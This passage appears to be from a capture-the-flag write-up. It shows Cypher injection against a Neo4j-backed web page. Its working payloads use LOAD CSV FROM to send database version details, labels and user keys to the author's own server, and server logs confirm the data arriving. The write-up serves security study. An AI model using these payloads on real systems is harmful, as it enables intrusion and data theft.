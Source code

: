 The Hacktricks page on [Cypher injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j#get-labels) has a bunch of good payloads to use from here. It’s easier to exfil the data base to my server than to get it formatted correctly to go onto the webpage. I’ll make use of `LOAD CSV FROM` to generate out going requests.

I’ll start with this payload to get version information:

```

' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.6/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // 

```

I’ve updated it to use my IP, and on sending it, I get results:

```
10.10.11.210 - - [24/Apr/2023 15:32:14] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [24/Apr/2023 15:32:14] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -

```

I’ll update the query on the page to get the labels:

```

' RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.6/?l='+label as l RETURN 0 as _0//

```

There are two hits at the server, `user` and `employee`:

```
10.10.11.210 - - [24/Apr/2023 15:35:19] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [24/Apr/2023 15:35:19] "GET /?l=employee HTTP/1.1" 200 -

```

One neat thing about Cypher is that I can chain queries together, like in [this example](https://pentester.land/blog/cypher-injection-cheatsheet/#clause-composition):

```

MATCH (john:Person {name: 'John'})
MATCH (john)-[:FRIEND]->(friend)
RETURN friend.name AS friendName

```

That is how [this example](https://pentester.land/blog/cypher-injection-cheatsheet/#out-of-band--blind-using-load-csv) works to extract the keys for `user`:

```

' match (u:user) with distinct keys(u) as k LOAD CSV FROM 'http://10.10.14.6/?'+k[0] as b return b//

```
